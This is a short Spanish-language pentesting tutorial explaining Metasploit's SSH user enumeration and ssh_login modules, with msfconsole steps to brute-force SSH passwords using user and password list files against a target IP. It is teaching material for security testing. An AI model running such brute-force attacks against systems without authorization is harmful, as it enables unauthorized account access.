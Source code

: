 **El script ssh_enumusers es una herrameinta efectiva para la enumeracion de usuarios en servidores SSH, permitiendo a los pentesters identificar cuentas de usuario validos que pueden ser el objetivo de ataques posteriores.**

# Script para la obtencion de contraseñas SSH
el script ssh_login de metasploit se utiliza para llevar a cabo ataques de fuerza bruta y obtener contraseñas de usuarios en un servidor SSH. a continuacion se detalla su funcionamiento y caracteristicas:
- su objetivo es de intentar autenticas usuarios en un servidor SSH utilizando una lista de nombres de usuario y contraseñas, su objetivo es acceder a cuentas de usuario validas.

- el script envia intentos de inicio de sension al servidor SSH utilizando combinaciones de nombres de usuario y contraseñas, puede utilizar una lista de usuarios y una lista de contraseñas para realizar el ataque.
-  si el servidor responde con un mensaje de autenticacion exitosa, el script identifica la combinacion de usuario y contraseña como valida. Si la auntenticacion falla, el script continua probando las siguientes combinaciones.

# configuracion del script
1. abrir metasploit
```bash 
        msfconsole
```
2. cargar el script
```bash 
        use auxiliary/scanner/ssh/ssh_login
```
3. configurar las opciones
establecemos la direccion IP del objetivo
```bash 
        set RHOST <target_ip>
```
establecemos la lista de nombres de usuario
```bash 
        set USER_FILE <user_list.txt>
```
establecemos la lista de contraseñas
```bash 
        set PASS_FILE <pass_list.txt>
```
4. ejecutar el scvript
```bash 
        run
```

**este script ssh_login es una herramienta poderosa para la obtencion de contraseñas de usuarios en servidores SSH, permitiendo a los pentesters acceder a cuentas mediante ataqyes de fuerza bruta.**

# resultados
al finalizar el Script deberia proporcionarnos cualquier combinacion de usuario y contraseña que haya tenido exito en la autenticacion.
